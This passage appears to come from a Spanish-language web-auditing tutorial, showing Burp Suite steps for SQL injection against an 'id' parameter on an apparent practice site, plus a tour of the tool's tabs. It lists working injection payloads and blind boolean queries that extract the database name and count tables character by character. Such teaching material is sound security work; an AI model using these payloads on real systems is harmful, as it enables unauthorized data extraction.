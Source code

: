 ### Paso 5: Automatización con Intruder
```
1. Enviar request a Intruder
2. En Intruder → Positions:
   - Seleccionar parámetro id
   - Click "Add §" para marcarlo: id=§1§
3. En Payloads:
   - Payload type: Simple list
   - Agregar payloads de SQLi:
     1 AND 1=1
     1 AND 1=2
     1 OR 1=1
     1' OR '1'='1
4. Click "Start attack"
5. Analizar diferencias en respuestas
```

### Paso 6: Extracción manual de información
```
1. Usar Repeater para extraer longitud de DB:
   - Payload: id=1 AND LENGTH(database())=15
   - Si respuesta es "Encontrado" → DB tiene 15 caracteres

2. Extraer nombre de base de datos carácter por carácter:
   - id=1 AND SUBSTRING(database(),1,1)='a'
   - id=1 AND SUBSTRING(database(),2,1)='u'
   - Continuar hasta obtener: "auditoria_web"

3. Enumerar tablas:
   - id=1 AND (SELECT COUNT(*) FROM information_schema.tables WHERE table_schema=database())=2
   - Confirma que hay 2 tablas
```

### Interpretación de la Interfaz de Burp Suite:

#### Proxy Tab:
- **Intercept:** On/Off control del interceptor
- **HTTP History:** Historial de requests capturados
- **Options:** Configuración del proxy

#### Scanner Tab:
- **Scan queue:** Cola de escaneos activos
- **Issue activity:** Vulnerabilidades encontradas
- **Options:** Configuración del scanner

#### Repeater Tab:
- **Request:** Panel para modificar requests
- **Response:** Panel con respuestas del servidor
- **Go:** Botón para enviar request modificado

#### Intruder Tab:
- **Positions:** Definir puntos de inyección
- **Payloads:** Lista de payloads a probar
- **Options:** Configuración del ataque
- **Results:** Resultados del ataque automatizado

---